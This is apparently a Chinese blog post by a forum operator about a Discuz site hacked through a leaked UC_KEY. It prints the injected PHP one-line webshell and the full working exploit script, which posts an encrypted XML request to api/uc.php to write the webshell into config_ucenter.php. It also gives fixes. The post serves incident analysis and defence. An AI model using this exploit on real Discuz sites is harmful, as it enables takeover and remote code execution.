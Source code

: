 ```yaml
---
title: 140212 Discuz UC_KEY泄露导致获得WebShell
layout: post
permalink: /2735.html
categories:
  - Code
tags:
  - discuz
  - uc_key
  - webshell
---
```

吃饭的时候同事发了个微信给我，说社区头像都显示不了了，当时没太在意，估计是cdn的问题。回来后打开网站自己看了下，乖乖把我吓坏了竟然出现了这么个情况。

所有头像地址都变为：

<pre class="brush: php; title: ; notranslate" title="">http://xxx\');eval($_POST[DOM]);//avastar.php?uid=123&#038;size=middle

</pre>

一看就知道是被人黑了，估计还拿到了webshell.

果断看了下代码做了断点调试，确实是ucenterurl中的值被更改了

<pre class="brush: php; title: ; notranslate" title="">function avatar($uid, $size = 'middle', $returnsrc = FALSE, $real = FALSE, $static = FALSE, $ucenterurl = '') {
	global $_G;
	if($_G['setting']['plugins']['func'][HOOKTYPE]['avatar']) {
		$_G['hookavatar'] = '';
		$param = func_get_args();
		hookscript('avatar', 'global', 'funcs', array('param' =&gt; $param), 'avatar');
		if($_G['hookavatar']) {
			return $_G['hookavatar'];
		}
	}
	static $staticavatar;
	if($staticavatar === null) {
		$staticavatar = $_G['setting']['avatarmethod'];
	}

	$ucenterurl = empty($ucenterurl) ? $_G['setting']['ucenterurl'] : $ucenterurl;
	$size = in_array($size, array('big', 'middle', 'small')) ? $size : 'middle';
	$uid = abs(intval($uid));
	if(!$staticavatar && !$static) {
		return $returnsrc ? $ucenterurl.'/avatar.php?uid='.$uid.'&size='.$size : '&lt;img src="'.$ucenterurl.'/avatar.php?uid='.$uid.'&size='.$size.($real ? '&type=real' : '').'" /&gt;';
	} else {
		$uid = sprintf("%09d", $uid);
		$dir1 = substr($uid, 0, 3);
		$dir2 = substr($uid, 3, 2);
		$dir3 = substr($uid, 5, 2);
		$file = $ucenterurl.'/data/avatar/'.$dir1.'/'.$dir2.'/'.$dir3.'/'.substr($uid, -2).($real ? '_real' : '').'_avatar_'.$size.'.jpg';
		return $returnsrc ? $file : '&lt;img src="'.$file.'" onerror="this.onerror=null;this.src=\''.$ucenterurl.'/images/noavatar_'.$size.'.gif\'" /&gt;';
	}
}
</pre>

在config/config\_ucenter.php 中的 UC\_API 的值变成了一句话木马。根据字符特征，很快找到了exp

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
    $timestamp = time()+10*3600;
    $host="127.0.0.1";
    $uc_key="eapf15K8b334Bc8eBeY4Gfn1VbqeA0N5Waofq6J285Ca33i151e551g0l9f2l3dd";
    $code=urlencode(_authcode("time=$timestamp&action=updateapps", 'ENCODE', $uc_key));
    $cmd1='&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;
&lt;root&gt;
 &lt;item id="UC_API"&gt;http://xxx\');eval($_POST[DOM]);//&lt;/item&gt;
&lt;/root&gt;';
    $cmd2='&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;
&lt;root&gt;
 &lt;item id="UC_API"&gt;http://aaa&lt;/item&gt;
&lt;/root&gt;';
    $html1 = send($cmd1);
    echo $html1;
    $html2 = send($cmd2);
    echo $html2;
    
    
function send($cmd){
    global $host,$code;
    $message = "POST /api/uc.php?code=".$code."  HTTP/1.1\r\n";
    $message .= "Accept: */*\r\n";
    $message .= "Referer: ".$host."\r\n";
    $message .= "Accept-Language: zh-cn\r\n";
    $message .= "Content-Type: application/x-www-form-urlencoded\r\n";
    $message .= "User-Agent: Mozilla/4.0 (compatible; MSIE 6.00; Windows NT 5.1; SV1)\r\n";
    $message .= "Host: ".$host."\r\n";
    $message .= "Content-Length: ".strlen($cmd)."\r\n";
    $message .= "Connection: Close\r\n\r\n";
    $message .= $cmd;
	
	//var_dump($message);
    $fp = fsockopen($host, 80);
    fputs($fp, $message);
    
    $resp = '';

    while ($fp && !feof($fp))
        $resp .= fread($fp, 1024);
    
    return $resp;
}

function _authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
    $ckey_length = 4;

    $key = md5($key ? $key : UC_KEY);
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
    $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

    $cryptkey = $keya.md5($keya.$keyc);
    $key_length = strlen($cryptkey);

    $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    $string_length = strlen($string);

    $result = '';
    $box = range(0, 255);

    $rndkey = array();
    for($i = 0; $i &lt;= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }

    for($j = $i = 0; $i &lt; 256; $i++) {
        $j = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }

    for($a = $j = $i = 0; $i &lt; $string_length; $i++) {
        $a = ($a + 1) % 256;
        $j = ($j + $box[$a]) % 256;
        $tmp = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }

    if($operation == 'DECODE') {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() &gt; 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        } else {
                return '';
            }
    } else {
        return $keyc.str_replace('=', '', base64_encode($result));
    }

}
?&gt;
</pre>

网上没有相关的对策不过oldjun说得很对这玩意漏洞必须满足2个条件：

<pre>1.必须知道UC_KEY，通常在配置文件里，或者ucenter的原始（没有经过修改的）数据库（应用）中；

2.配置文件config_ucenter.php必须可写。
</pre>

**说白了是因为在做cdn源的时候比较粗肢的把php源代码包含了一部分出去，所以hacker可以根据相对路径获取到uc_key的内容。**

关于如何解决:  
1：修改 config_ucenter.php 权限为不可写  
2：修改 api/uc.php 中 代码，把之注释掉  
3: 更改 uc\_key ，并且保证config\_ucenter.php中的与uc_server/data/cache/apps.php中的一致

<pre class="brush: php; title: ; notranslate" title="">if ($UC_API && is_writeable ( DISCUZ_ROOT . './config/config_ucenter.php' )) {
			if (preg_match ( '/^https?:\/\//is', $UC_API )) {
				$configfile = trim ( file_get_contents ( DISCUZ_ROOT . './config/config_ucenter.php' ) );
				$configfile = substr ( $configfile, - 2 ) == '?&gt;' ? substr ( $configfile, 0, - 2 ) : $configfile;
				$configfile = preg_replace ( "/define\('UC_API',\s*'.*?'\);/i", "define('UC_API', '" . addslashes ( $UC_API ) . "');", $configfile );
				if ($fp = @fopen ( DISCUZ_ROOT . './config/config_ucenter.php', 'w' )) {
					//@fwrite ( $fp, trim ( $configfile ) );
					@fclose ( $fp );
				}
			}
		}
</pre>

本文参考:

http://www.oldjun.com/blog/index.php/archives/76/

http://www.unhonker.com/bug/1509.html